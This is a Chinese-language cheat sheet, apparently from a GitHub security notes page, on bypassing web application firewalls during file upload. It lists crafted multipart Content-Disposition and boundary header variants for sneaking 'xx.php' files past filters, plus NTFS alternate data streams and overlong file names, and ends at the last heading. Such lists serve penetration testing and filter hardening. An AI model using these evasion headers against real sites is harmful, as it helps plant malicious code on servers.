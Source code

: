 
#### 交换`name`和`filename`的顺序
* **规定`Content-Disposition`必须在最前面**，所以只能交换`name`和`filename`的顺序。有的WAF可能会匹配`name`在前面，`filename`在后面，所以下面姿势会导致Bypass。

```
Content-Disposition: form-data; filename="xx.php"; name=file
```



#### 多个分号
* 多个分号,文件解析时，可能解析不到文件名，导致绕过。

```
Content-Disposition: form-data; name="file";;; filename="xx.php"
```

#### 在`boundary`前添加任意字符
* 如下,在`boundary`前添加`bypass`,php支持,java报错

```
Content-Type: multipart/form-data; bypassboundary=----WebKitFormBoundaryj1oRYFW91eaj8Ex2
```

#### 去掉或修改`Content-Disposition`值
* 有的WAF在解析的时候，认为`Content-Disposition`值一定是`form-data`，造成绕过。

```
Content-Disposition: name='file_x'; filename='xx.php'
```



#### 去掉引号
```
Content-Disposition: form-data; name=file; filename="xx.php"
Content-Disposition: form-data; name="file"; filename=xx.php
Content-Disposition: form-data; name=file; filename=xx.php
```

#### 双引号变成单引号
```
Content-Disposition: form-data; name='file'; filename='xx.php'
```
单引号、双引号、不要引号，都能上传。


### NTFS ADS特性
* ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的filename匹配不当的话可能会导致绕过。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/_1528647273_580289876_1536893321)

### 其他情况补充

#### 文件重命名绕过
* 修改上传的文件名为超长文件名。
